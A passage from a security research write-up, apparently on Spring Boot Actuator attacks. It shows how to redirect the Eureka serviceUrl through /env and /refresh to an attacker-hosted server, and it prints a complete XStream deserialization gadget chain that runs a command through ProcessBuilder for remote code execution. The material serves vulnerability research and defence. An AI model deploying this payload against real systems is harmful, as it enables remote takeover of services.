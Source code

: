 This property modifies the Eureka serviceURL to an arbitrary value. Eureka Server is normally used as a discovery server, and almost all Spring Cloud applications register at it and send status updates to it. If you are lucky to have Eureka-Client <1.8.7 in the target classpath (it is normally included in Spring Cloud Netflix), you can exploit the **XStream deserialization vulnerability** in it. All you need to do is to set the 'eureka.client.serviceUrl.defaultZone' property to your server URL ( [http://artsploit.com/n/xstream](http://artsploit.com/n/xstream)) via '/env' and then call '/refresh' endpoint. After that, your server should serve the XStream payload with the following content:

```markup
<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                      <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>
```

This XStream payload is a slightly modified version of the ImageIO JDK-only gadget chain from the [Marshalsec research](https://github.com/mbechler/marshalsec). The only difference here is using **LinkedHashSet** to trigger the 'jdk.nashorn.internal.objects.NativeString.hashCode()' method. The original payload leverages java.lang.Map to achieve the same behaviour, but Eureka's XStream configuration has a [custom converter for maps](https://github.com/Netflix/eureka/blob/master/eureka-client/src/main/java/com/netflix/discovery/converters/XmlXStream.java#L58) which makes it unusable. The payload above does not use Maps at all and can be used to achieve Remote Code Execution without additional constraints.

